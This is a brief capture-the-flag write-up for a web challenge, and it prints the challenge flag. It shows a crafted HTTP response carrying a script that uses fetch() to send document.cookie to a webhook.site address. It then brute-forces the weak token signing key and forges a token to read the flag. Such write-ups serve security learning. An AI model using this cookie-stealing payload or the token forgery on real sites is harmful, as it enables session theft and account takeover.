

# learn HTTP
## Solution
We can produce any HTTP response, just url-encode it and pass to the input to get the url to produce your HTTP response.

Let's make a perfect HTTP response which will make a simple fetch to hook

```
HTTP/1.1 200 OK
Content-type: text/html
Content-length: 102

<script>fetch(`https://webhook.site/7c0b4f46-d927-4d8e-8601-3d70d049fe4c?${document.cookie}`)</script>
```



We get the token in the request, after bruting the signing key, we find it as `banana`

changing the id to 2 and sigining the payload, we request to `/flag` with cookie as `token=<new_token>`, we get the flag

## Flag
`pearl{c4nt_s3nd_th3_resP0n53_w1th0ut_Sani7iz1ng}`